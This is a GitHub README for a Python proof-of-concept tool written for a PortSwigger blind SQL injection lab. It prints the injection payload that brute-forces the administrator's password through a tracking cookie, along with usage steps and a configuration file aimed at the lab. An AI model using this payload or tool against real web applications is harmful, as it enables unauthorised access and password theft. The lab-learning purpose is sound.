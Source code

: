 # SQLInjector

At the moment the app is able to test for cookie injection vulnerabilities. It can be passed the url to test, the code
to inject, the name of the cookie to inject, a confirmation string to be matched on the response content, chars-set to
use for brute forcing, password length, and max number of concurrent thread to run.

##### Testing
This code is a POC, and has been written to solve PortSwigger's lab: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).
This lab can be used to test the code, or any other web app, where a cookie injection vulnerability exists. The app 
will inject the specified code in the cookie we specify by name, and submit the conditional statements to the web app,
checking if our chosen string can be matched on the response content.

##### The injection code
The code that can be injected by default is:
   ```sql
   ' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--`
   ```
The `{char_numb}` and the `{character}` tags are just placeholder. The Brute Forcer will replace the `{char_numb}`
with the character position (index) of the password string. The `{character}` tag will be replaced with a character
taken from the specified char-set.  
  
By changing these two values in the injected code, the Cookie Injector app will try to recover the administrator's
password.

### Usage:
1. Clone the repository

   ```zsh
    git clone https://github.com/hogchild/SQLInjector.git
   ```
2. cd into the SQLInjector directory
   ```zsh
   cd SQLInjector
   ```
3. Run Cookie Injector
   ```zsh
   python3.12 -m SQLInjector.cookie_injector --help
   ```
   ```zsh
   Usage: python -m SQLInjector.cookie_injector [OPTIONS]
   
     This app injects a cookie, sends the crafted request, and checks the
     response from the page content. It needs a JSON configuration file. You can
     edit this manually, at the path: 'config/cookie_injector.json'. The setup
     utility will run automatically, to create one, when launching
     cookie_injector.py without a configuration file in the config folder.
     Alternatively you can run it with the '-s' option.
   
   Options:
     -u, --set-url TEXT      Specify target URL instead of the one in config
                             file.
     -s, --setup-utility     Interactively edit the config file.
     -f, --config-file PATH  Path to config file.  [default:
                             config/cookie_injector.json; required]
     -o, --out-file PATH     Path to output file with the recovered password.
     --help                  Show this message and exit.
   ```
### Example Configuration File
**File path:** config/cookie_injector.json
```json
{
   "target_url": "https://0a76003c03fc905d81c6c029009800fa.web-security-academy.net/product?productId=2",
   "inject_code": "' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--",
   "passwd_length": 20,
   "char_set": "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789",
   "confirm_string": "Welcome",
   "cookie_name": "TrackingId",
   "max_threads": 20
}
```

### Demo
![Demo gif](data/demo.gif)

---

### Directory Structure

- SQLInjector
  - Config
    - cookie_ingector.json
  - Data
    - input
    - output
    - demo.gif
  - docs
  - SQLInjector
    - \_\_init__.py
    - brute_forcer.py
    - cookie_injector.py
    - cookie_injector_core.py
    - cookie_injector_setup.py
    - custom_errors.py
  - tests
    - \_\_init__.py
    - test_cookie_injector_core.py
    - test_cookie_injector_setup.py
  - \_\_init__.py
  - README.md
  - requirements.txt
